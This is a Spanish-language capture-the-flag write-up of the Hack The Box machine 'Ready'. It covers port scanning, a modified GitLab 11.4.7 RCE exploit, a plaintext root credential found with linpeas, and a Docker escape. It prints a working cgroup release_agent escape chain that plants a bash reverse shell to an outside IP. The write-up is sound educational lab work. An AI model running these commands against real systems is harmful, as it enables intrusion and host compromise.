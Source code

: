 ```yaml
---
title: "Ready - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ready/data/ready.png?raw=true"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Doker
  - RCE (Remote Code Execution)
  - GitLab
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/data/readyHTB.png">
</p>

La máquina **Ready** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una puntuación de 4.2, **6646 USER OWNS** y **5768 SYSTEM OWNS** con la ip **10.10.10.220** y un sistema operativo **Linux**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.220]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/scan/scanPort.png">
  </p>

  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,5080**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/scan/Ports.png">
  </p>

  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/scan/PortServ.png">
  </p>

  Lo que **nmap** nos muestra es existe un servicio ***HTTP*** en el puerto 5080 con un **robots.txt** habilitado.
  Si entramos a la pagina web vemos que es tiene como **cms** un GitLab.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/scan/page.png">
  </p>

  Ya que nos permite crear una cuenta procedo a crear la cuenta:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/scan/pageLogin.png">
  </p>


## Lateral Movement

  Ya dentro de la cuenta que acabo de crear, enumerando pude encontrar la versión de **GitLab** la cual es **11.4.7**, buscando con la herramienta de **searchsploit** la versión del CMS encontré que tiene varios exploits que nos permiten hacen un ataque de Remote Code Execution:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/version.png">
  </p>
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/searchsploit.png">
  </p>

  Examinando el exploit con el **id 49334** ya que pide autenticación usamos ese con las credenciales que acabamos de crear, examinando el exploit se modifico unas lineas ya que tenia algunos errores, se modifico la linea **29** ya que la variable **local_port** estaba tomando el argumento de la variable **password** y a al momento de ejecutar el exploit las credenciales se enviaban mal, también se modifico la linea **59** que esa linea corresponde a el payload, se le agrego el argumento **-e /bin/bash** esto fue asi porque a la hora de ejecutar el exploit nos da la conexión pero no nos permite ejecutar ningún comando y a veces da un error, para asegurar la shell le agregamos estos parámetros:

  <div align="center">
  <table class="center"><tr>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/expModpa.png">
  <div class="caption" >Before.</div></center></td>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/expModpb.png">
  <div class="caption">After.</div></center></td>
  </tr></table>
  </div>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/expModB.png">
  </p>

Una vez que ya hice los cambios me puse por el puerto **443** en escucha con Netcat  ejecute el exploit pasado menos de 5 seg. me llego la conexión y con ella la shell:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/shell.png">
</p>

## Privilege escalation

Una vez que ya estoy dentro de la maquina como el usuario **git** me dirijo a la ruta **/tmp/** y creo un directorio llamado **/winsad** ahí dentro me descargo de mi maquina el binario de **linpeas.sh** con **wget** para poder hacer una enumeración del sistema y encontrar una forma de escalar privilegios, ejecutando el binario me encontré una credencial en texto plano que pertenecía al usuario **root** dentro del archivo **/opt/backup/gitlab.rb**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/passwd.png">
</p>

Ya que tenemos las credenciales de **root** entramos a su directorio personal y vemos que la **flag** de root no esta, lo que genera sospechas ya que podríamos estar en un **Doker**, ya que el mismo **linpeas** nos dio información que no puedo dar muchas pistas de esto mismo y agregar que el comando **ifconfig**, **ip -a** no estaban habilitados o disponibles en la maquina.

Una prueba que podemos ver si estamos en un **Contenedor-Doker** es haciendo un **cat** a la ruta ```/proc/1/cgroup```.

Cgroups significa "grupos de control". Es una característica de Linux que aísla el uso de recursos y es lo que Docker utiliza para aislar los contenedores. Puedes saber si estás en un contenedor comprobando el grupo de control del proceso init en /proc/1/cgroup. Si no estás dentro de un contenedor, el grupo de control debería ser /. Por otro lado, si estás dentro de un contenedor, deberías ver /docker/CONTAINER_ID en su lugar.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/docker1.png">
</p>

Ya que sabemos que estamos en un **Docker** buscando en internet como escapar de un contenedor me encuentro con un articulo el cual explica el como poder escapar de estos mismo.

En el articulo explican que para poder escapar tenemos que ver si el contenedor tiene algún privilegio establecido para ver esto usamos el comando ```#ip link add dummy0 type dummy ```  esto se hace ya que este comando requiere la capacidad **NET_ADMIN**, que el contenedor tendría si tiene privilegios y si este comando se ejecuta con éxito, puede concluir que el contenedor tiene la capacidad **NET_ADMIN**.

En este caso ya que el comando **ip** esta deshabilitado no podemos hacer la prueba pero en el mismo articulo nos explican como podríamos ejecutar comandos en la maquina host estando dentro del contenedor, se seguiría los siguientes comandos:

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/bash' > /cmd
echo " bash -i >& /dev/tcp/10.10.15.125/444 0>&1> $host_path/output" >> /cmd <-- Insertamos la revershell
chmod a+x /cmd

bash -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
Ya ejecutado estas sentencia de comando vemos que efectivamente pudimos salir del docker ejecutando comandos en la maquina host.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ready/intrusion/root.png">
</p>


## Referencias

https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1

https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

https://www.youtube.com/watch?v=_dhONyAk4es
